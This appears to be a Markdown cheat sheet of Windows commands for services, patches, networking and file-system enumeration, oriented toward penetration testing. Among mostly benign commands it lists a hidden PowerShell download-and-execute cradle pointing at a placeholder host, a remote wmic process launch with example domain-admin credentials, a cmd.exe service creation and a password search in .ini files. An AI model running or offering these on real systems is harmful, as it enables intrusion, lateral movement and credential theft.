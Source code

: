 ## Services

|**Command**|**Description**|
|:----------|:--------------|
|sc qc `servicename`|Queries the configuration information for a service. (**BINARY_PATH_NAME** and so on.)|
|sc query `servicename`|Queries the status for a service, or enumerates the status for types of services.|
|sc create cmdsys type= own type= interact binPath= "c:\windows\system32\cmd.exe /c cmd.exe" & sc start cmdsys|Creates a service entry in the registry and Service Database.|

## Security

|**Command**|**Description**|
|:----------|:--------------|
|wmic qfe get hotfixid| Information about patches installed on the windows|
|NETSH FIREWALL show all|Show Allowed programs configuration for Domain/Standard profile.|


## Networking

|**Command**|**Description**|
|:----------|:--------------|
|ipconfig /all|Displays the full TCP/IP configuration for all adapters. |
|ipconfig /displaydns|Displays the contents of the DNS client resolver cache, which includes both entries preloaded from the local Hosts file and any recently obtained resource records for name queries resolved by the computer. The DNS Client service uses this information to resolve frequently queried names quickly, before querying its configured DNS servers.|
|netstat -ano|Displays active TCP connections and includes the process ID (PID) for each connection. |
|netstat -ano -p tcp|Show tcp connections.|
|netstat -ano -p udp|Show udp connections.|
|netstat -r|Displays the system's routing table.|
|route print|Displays the system's routing table.|
|net view|Displays a list of domains, computers, or resources that are being shared by the specified computer. |
|net view /domain:`DOMAINNAME`|Specifies the domain for which you want to view the available computers. If you omit DomainName, /domain displays all of the domains in the network.|
|net view \\\\`ComputerName`|Specifies the computer that contains the shared resources that you want to view.|
|wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin list shadows 2>&1 > c:\temp\output.txt"|Create a new process on remote server.|
|powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://ip:port/[file]'))"|Execute code from remote server.|
|powershell.exe -w hidden -nop -ep bypass -c "(new-object net.webclient).DownloadFile('http://ip:port/file', 'C:\Windows\temp\testfile')"|Download a file from remote server.|


## File Systems

|**Command**|**Description**|
|:----------|:--------------|
|type C:\Windows\system32\demo.txt|Show the contents of a file. |
|dir /a|Displays files with specified attributes.|
|dir /s|Searches sub-directories|
|dir /s "\*`match-text`\*"|Searches for the word entered in the `match-text` section in all sub-dirs of the current directory.|
|find /I `password` C:\Windows\System32\*.ini|Searches for a `password` string in a file or files.|
|tree /F C:\Windows\system32|Graphically displays the folder structure of a drive or path.|
|fsutil fsinfo drives|Lists the current drives on the system.|